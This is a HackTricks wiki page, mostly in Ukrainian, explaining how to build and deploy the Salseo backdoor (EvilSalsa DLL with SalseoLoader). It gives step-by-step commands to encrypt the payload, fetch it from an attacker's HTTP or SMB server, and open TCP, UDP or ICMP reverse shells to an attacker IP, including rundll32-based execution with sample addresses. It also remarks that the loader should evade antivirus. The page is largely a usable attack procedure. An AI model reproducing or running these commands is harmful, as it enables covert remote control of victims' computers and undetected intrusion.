 # Salseo

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Compiling the binaries

Завантажте вихідний код з github і скомпілюйте **EvilSalsa** та **SalseoLoader**. Вам потрібно буде встановити **Visual Studio** для компіляції коду.

Скомпіліруйте ці проекти для архітектури віконного комп'ютера, на якому ви будете їх використовувати (якщо Windows підтримує x64, скомпіліруйте їх для цієї архітектури).

Ви можете **вибрати архітектуру** в Visual Studio у **лівій вкладці "Build"** у **"Platform Target".**

(\*\*Якщо ви не можете знайти ці опції, натисніть на **"Project Tab"** і потім на **"\<Project Name> Properties"**)

![](<../.gitbook/assets/image (132).png>)

Потім збудуйте обидва проекти (Build -> Build Solution) (всередині логів з'явиться шлях до виконуваного файлу):

![](<../.gitbook/assets/image (1) (2) (1) (1) (1).png>)

## Prepare the Backdoor

По-перше, вам потрібно буде закодувати **EvilSalsa.dll.** Для цього ви можете використовувати python-скрипт **encrypterassembly.py** або скомпілювати проект **EncrypterAssembly**:

### **Python**
```
python EncrypterAssembly/encrypterassembly.py <FILE> <PASSWORD> <OUTPUT_FILE>
python EncrypterAssembly/encrypterassembly.py EvilSalsax.dll password evilsalsa.dll.txt
```
### Windows
```
EncrypterAssembly.exe <FILE> <PASSWORD> <OUTPUT_FILE>
EncrypterAssembly.exe EvilSalsax.dll password evilsalsa.dll.txt
```
Добре, тепер у вас є все необхідне для виконання всіх Salseo речей: **закодований EvilDalsa.dll** та **бінарний файл SalseoLoader.**

**Завантажте бінарний файл SalseoLoader.exe на машину. Вони не повинні бути виявлені жодним антивірусом...**

## **Виконання бекдору**

### **Отримання TCP зворотного шелу (завантаження закодованого dll через HTTP)**

Не забудьте запустити nc як прослуховувач зворотного шелу та HTTP сервер для обслуговування закодованого evilsalsa.
```
SalseoLoader.exe password http://<Attacker-IP>/evilsalsa.dll.txt reversetcp <Attacker-IP> <Port>
```
### **Отримання UDP зворотного шеллу (завантаження закодованого dll через SMB)**

Не забудьте запустити nc як прослуховувач зворотного шеллу та SMB сервер для надання закодованого evilsalsa (impacket-smbserver).
```
SalseoLoader.exe password \\<Attacker-IP>/folder/evilsalsa.dll.txt reverseudp <Attacker-IP> <Port>
```
### **Отримання ICMP зворотного шеллу (закодована dll вже всередині жертви)**

**Цього разу вам потрібен спеціальний інструмент на клієнті для отримання зворотного шеллу. Завантажте:** [**https://github.com/inquisb/icmpsh**](https://github.com/inquisb/icmpsh)

#### **Вимкніть ICMP відповіді:**
```
sysctl -w net.ipv4.icmp_echo_ignore_all=1

#You finish, you can enable it again running:
sysctl -w net.ipv4.icmp_echo_ignore_all=0
```
#### Виконати клієнта:
```
python icmpsh_m.py "<Attacker-IP>" "<Victm-IP>"
```
#### Всередині жертви, давайте виконаємо salseo:
```
SalseoLoader.exe password C:/Path/to/evilsalsa.dll.txt reverseicmp <Attacker-IP>
```
## Компіляція SalseoLoader як DLL, що експортує основну функцію

Відкрийте проект SalseoLoader за допомогою Visual Studio.

### Додайте перед основною функцією: \[DllExport]

![](<../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

### Встановіть DllExport для цього проекту

#### **Інструменти** --> **Менеджер пакетів NuGet** --> **Керувати пакетами NuGet для рішення...**

![](<../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

#### **Шукайте пакет DllExport (використовуючи вкладку Перегляд), і натисніть Встановити (і прийміть спливаюче вікно)**

![](<../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

У вашій папці проекту з'явилися файли: **DllExport.bat** та **DllExport\_Configure.bat**

### **В**идалити DllExport

Натисніть **Видалити** (так, це дивно, але повірте, це необхідно)

![](<../.gitbook/assets/image (5) (1) (1) (2) (1).png>)

### **Вийдіть з Visual Studio та виконайте DllExport\_configure**

Просто **вийдіть** з Visual Studio

Потім перейдіть до вашої **папки SalseoLoader** і **виконайте DllExport\_Configure.bat**

Виберіть **x64** (якщо ви збираєтеся використовувати його всередині x64 системи, це був мій випадок), виберіть **System.Runtime.InteropServices** (всередині **Простір імен для DllExport**) і натисніть **Застосувати**

![](<../.gitbook/assets/image (7) (1) (1) (1) (1).png>)

### **Відкрийте проект знову у Visual Studio**

**\[DllExport]** більше не повинно позначатися як помилка

![](<../.gitbook/assets/image (8) (1).png>)

### Зберіть рішення

Виберіть **Тип виходу = Бібліотека класів** (Проект --> Властивості SalseoLoader --> Застосування --> Тип виходу = Бібліотека класів)

![](<../.gitbook/assets/image (10) (1).png>)

Виберіть **платформу x64** (Проект --> Властивості SalseoLoader --> Збірка --> Цільова платформа = x64)

![](<../.gitbook/assets/image (9) (1) (1).png>)

Щоб **зібрати** рішення: Збірка --> Зібрати рішення (У консолі виходу з'явиться шлях до нового DLL)

### Тестуйте згенерований Dll

Скопіюйте та вставте Dll туди, де ви хочете його протестувати.

Виконайте:
```
rundll32.exe SalseoLoader.dll,main
```
Якщо помилка не з'являється, ймовірно, у вас є функціональний DLL!!

## Отримати оболонку, використовуючи DLL

Не забудьте використовувати **HTTP** **сервер** і налаштувати **nc** **слухача**

### Powershell
```
$env:pass="password"
$env:payload="http://10.2.0.5/evilsalsax64.dll.txt"
$env:lhost="10.2.0.5"
$env:lport="1337"
$env:shell="reversetcp"
rundll32.exe SalseoLoader.dll,main
```
### CMD
```
set pass=password
set payload=http://10.2.0.5/evilsalsax64.dll.txt
set lhost=10.2.0.5
set lport=1337
set shell=reversetcp
rundll32.exe SalseoLoader.dll,main
```
{% hint style="success" %}
Вивчайте та практикуйте AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Вивчайте та практикуйте GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}
